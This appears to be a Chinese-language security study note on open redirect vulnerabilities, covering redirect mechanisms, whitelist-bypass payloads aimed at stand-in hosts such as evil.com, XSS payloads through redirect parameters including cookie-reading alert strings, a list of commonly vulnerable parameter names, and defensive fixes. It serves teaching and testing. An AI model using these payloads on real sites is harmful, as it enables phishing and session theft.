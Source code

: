 ### 简介

任意重定向(Open Redirection)

### 漏洞原理

* 跳转方式1 HTTP Response Code & Header
  * HTTP Response Status Code - Redirection `3xx`
    - [300 Multiple Choices](https://httpstatuses.com/300)
    - [301 Moved Permanently](https://httpstatuses.com/301)
    - [302 Found](https://httpstatuses.com/302)
    - [303 See Other](https://httpstatuses.com/303)
    - [304 Not Modified](https://httpstatuses.com/304)
    - [305 Use Proxy](https://httpstatuses.com/305)
    - [307 Temporary Redirect](https://httpstatuses.com/307)
    - [308 Permanent Redirect](https://httpstatuses.com/308)
  * HTTP Response Header
    - `Location: `
* 跳转方式2 `meta`标签
    - 绝对路径 `<meta http-equiv="Refresh" content="0; url=https://www.w3docs.com" />` 0秒跳转
    - 相对路径 `<meta http-equiv="Refresh" content="3.5; url=../" />` 3.5秒跳转
* 跳转方式3 Javascript实现跳转
  * 1.`window.location.href`
    * 绝对路径 `window.location.href='http://evil.com';`
      * 如果参数可控则能XSS `window.location.href="javascript:alert(document.cookie)";`
    * 相对路径 `window.location.href='../../';`  会从当前url`http://a.com/1/2/3/`跳转到`http://a.com/1/`
      * 如果`../`非常多则跳转到`http://a.com/`
  * 2.`window.location.replace`
    * 绝对路径 `location.replace("http://new.tld?para=1#title");`
      * 如果参数可控则能XSS `location.replace("javascript:alert(document.cookie)");`
    * 相对路径 `location.replace("../");`
  * 3.待补充


**触发漏洞**
```
访问
https://famous-website.tld/signup?redirectUrl=https://evil.tld/account
浏览器访问famous-website.tld 如果被重定向到域evil.tld 则存在任意重定向漏洞
```

### 漏洞影响

* 任意重定向(Open Redirection)漏洞影响
  * redirection - 合法域名white.com下 实现重定向 到"钓鱼"等其他网站
  * XSS - 合法域名white.com下 实现XSS

### 测试方法

有一定安全意识的开发人员会对"跳转目的值"使用"关键字白名单"进行校验，我们尝试利用这些"关键字白名单"来绕过不够严谨的校验

尝试找到并利用aaa.com的任意重定向漏洞 跳转到evil.com

* 手工测试 - 任意重定向漏洞导致的跳转 - "跳转目的值"
  * 使用特定子域名绕过不严谨的"关键字白名单"校验   `www.aaa.com.evil.com`
  * 使用`@`绕过白名单机制                        `http://www.aaa.com@evil.com/`
  * 使用参数污染 绕过白名单机制                   `?next=whitelisted.com&next=evil.com`
  * 使用子文件夹名 绕过白名单机制                 `http://www.evil.com/http://www.aaa.com/` `http://www.evil.com/folder/www.aaa.com`
  * 使用CRLF绕过对字符串`javascript`的检测和限制  `java%0d%0ascript%0d%0a:alert(0)`
  * 使用`//`绕过对字符串`http`的检测和限制        `//evil.com`
  * 使用`https:`绕过对字符串`//`的检测和限制      `https:evil.com`
  * 使用`\/\/` 绕过对字符串`//`的检测和限制       `\/\/evil.com/` `/\/evil.com/`
  * 使用`。`即%E3%80%82绕过对`.`的检测和限制      `/?redir=evil。com`  `//evil%E3%80%82com`
  * 使用%00绕过黑名单机制                        `//evil%00.com`
  * ...
* 手工测试 - 任意重定向漏洞导致的XSS
  * XSS from Open URL  `";alert(0);//`
  * XSS from `data://` wrapper   `http://www.aaa.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==`
  * XSS from `javascript://` wrapper  `http://www.aaa.com/redirect.php?url=javascript:prompt(1)`
* 自动化测试 - 测试是否存在"任意重定向漏洞" (跳转+XSS)


**常出现跳转漏洞的功能点**
```
1.登录、注销处的URL跳转
```

**常出现跳转漏洞的URL格式**
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

### SDL - 防御与修复方案

* 1.设置 "域名白名单" 和 "地址的预期格式".
* 2.使用编程语言的API获取域名.
* 3.严格验证用户输入
  * 验证用户输入的参数值的"内容".  如果 不符合 "域名白名单", 则直接`return` 不向下执行.
  * 验证用户输入的参数值的"格式".  如果 不符合 "地址的预期格式", 则直接`return` 不向下执行.
  * 限制用户输入的参数值的"最大长度". 如果超过 "域名白名单"里 最长的域名, 则直接`return` 不向下执行.

>参考[PayloadsAllTheThings/Open Redirect/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Open%20Redirect/README.md)

